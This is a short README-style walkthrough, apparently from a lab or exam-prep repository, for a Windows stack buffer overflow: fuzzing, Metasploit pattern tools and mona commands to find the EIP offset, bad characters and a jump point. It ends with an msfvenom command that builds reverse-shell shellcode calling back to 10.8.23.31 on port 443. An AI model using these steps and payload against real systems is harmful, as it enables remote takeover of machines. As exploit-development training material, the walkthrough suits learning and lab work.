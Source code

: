 # BOF
---------
1. Fuzz with 01-fuzz.py
2. Once found the crashing buffer use pattern create to create a pattern:
```bash
/usr/bin/msf-pattern_create -l 2500
```

Copy over the pattern created and run 02-offset.py

3. Use msf pattern offset to find the offset match: 

Copy the value at  EIP
```bash
/usr/bin/msf-pattern_offset -l 500 -q 356B4134
```

```
!mona findmsp -distance 500 
```

```
EIP contains normal pattern offset 1274
```

Add the EIP to the script  03-eip.py and overwrite the EIP with Bs

3. Finding bad  characters:

Set mona config folder:
```
!mona config -set workingfolder c:\mona\
```

Generate badchars using mona:

```
!mona bytearray -cpb "\x00"
```

Copy over the chars to the script and run.

Note down the bad chars, generate a new set of bad chars again:
```
!mona bytearray -cpb "\x00\x16\x2f\xf4\xfd"
```

Once there are no more bad chars, we are good to go.

4. Finding a jump point:

Using mona to find the jump point:
```
!mona compare -f C:\mona\bytearray.bin -a esp
```

Note down the address and set a breakpoint on that address
Execute the script 05-pointer.py
If the pointer address stops at EIP, we are good to go.

5. Generating shellcode:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.23.31 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x16\x2f\xf4\xfd"
```

Append the shellcode in the 07-exploit.py script and execute for the reverse shell.